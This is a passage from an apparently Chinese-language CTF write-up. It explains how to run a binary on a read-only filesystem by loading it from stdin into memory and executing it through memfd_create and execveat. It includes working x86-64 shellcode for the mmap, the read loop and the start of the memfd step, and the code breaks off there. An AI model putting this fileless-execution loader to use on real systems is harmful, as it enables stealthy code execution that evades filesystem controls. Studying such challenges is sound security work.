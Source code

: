 意思是现在要直接增加一个execveat syscall wrapper。之前用execveat系统调用实现了fexecve（如果内核支持），可以不用构建`/proc/self/fd/*`文件名，直接用fd执行。  

另外，只读文件系统，文件只能放在内存里，所以用memfd_create系统调用，创建一个在内存里的匿名文件。  

整理一下，Payload要做这些事：  

1. 调用mmap syscall，在堆上申请内存
2. 调用read syscall，从stdin把hello读到申请的内存里
3. 调用memfd_create syscall，创建一个memfd
4. 调用execveat执行memfd，替换当前进程为hello

当然这样本地就可以跑通了，但是远程hello总是不完整，我甚至把写入的hello打到stdout上看看到底咋回事，看起来总是没法一次性读完hello的16744个字节。  

想了半半天，甚至还问了群里人是不是payload有长度限制，也怀疑是通过tcp传输一次性不能读那么多。最后看了下pwntools，用了`pwnlib.shellcraft.amd64.linux.readn(fd, buf, nbytes)` (reads exactly nbytes bytes from file descriptor fd into the buffer buf)，这才搞定。

shellcode如下，部分用pwntools生成的，部分手写（又不是不能用.jpg），printf buffer是为了验证写入的hello完整性的。
```
section .text
global _start
_start:
    ; mmap new buffer
    push 0x22
    pop r10
    push -1
    pop r8
    mov r9d, 0
    push 9
    pop rax
    mov edi, 0x1010101
    xor edi, 0x24545101
    push 7
    pop rdx
    mov esi, 0x1100101
    xor esi, 0x1110101
    syscall

    ; read stdin to buffer
    xor edx, edx
    mov dx, 0x4168
    mov esi, 0x1010101 ; /* 626348032 == 0x25555000 */
    xor esi, 0x24545101

readn_loop_2:
    ; /* call read(0, 'rsi', 'rdx') */
    xor eax, eax ;/* SYS_read */
    xor edi, edi ;/* 0 */
    syscall
    add rsi, rax
    sub rdx, rax
    jnz readn_loop_2

    ; printf buffer
    mov rsi, 0x25555000
    mov rdi, 1
    mov rdx, 0x4168
    ;/* call write() */
    push 1 ; /* 1 */
    pop rax
    syscall

    ; create memfd
    xor eax, eax
    mov eax, 0x13f      ; syscall 0x13f
```